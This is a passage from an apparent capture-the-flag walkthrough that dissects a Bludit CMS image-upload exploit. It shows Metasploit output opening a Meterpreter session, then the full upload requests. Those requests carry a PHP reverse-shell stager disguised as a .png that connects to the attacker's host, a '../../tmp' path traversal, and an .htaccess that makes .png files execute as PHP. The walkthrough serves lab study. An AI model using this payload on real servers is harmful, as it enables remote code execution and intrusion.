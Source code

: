 ```
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading cDgYmMchPH.png...
[*] Uploading .htaccess...
[*] Executing cDgYmMchPH.png...
[*] Sending stage (39282 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.10.10.191:37696 ) at 2022-04-19 14:24:52 +0200

meterpreter >
```
Now, as always let's reverse the exploit to gain our own shell. Let's set the proxy for the exploit and analyze how it works request by request.  
In the first steps, we see that the exploit calls index.php in order to grab CSRF token as we did in our init_session() function.  
then , the exploit calls ```/admin/ajax/upload-images``` and tries to send a nasty php script in a .png format, setting the uuid value to ```../../tmp```, we can assume that this is the directory traversal vulnerability and the specified folder is the place where the file will be uploaded.  
```
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="images[]"; filename="urRPSNKVaR.png"
Content-Type: image/png

<?php @unlink(__FILE__);/*<?php /**/ error_reporting(0); $ip = '10.10.14.17'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die(); ?>
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="uuid"

../../tmp
-----------------------------743239273736140726080546615286
Content-Disposition: form-data; name="tokenCSRF"

92f6db87efe26f25cb7e6a8a8d2743d6f41995d5
-----------------------------743239273736140726080546615286--
```
Then the exploit, using the same form, tries to upload a .htaccess file containing a directive that will allow the webserver to execute .png files as scripts:  
```
-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/png

RewriteEngine off
AddType application/x-httpd-php .png

-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="uuid"

3740583359713fcc4993def59a997742
-----------------------------162541449209088976078955525395
Content-Disposition: form-data; name="tokenCSRF"

bef07d953027dd57fd1c7a349a1fe25036d399d9
```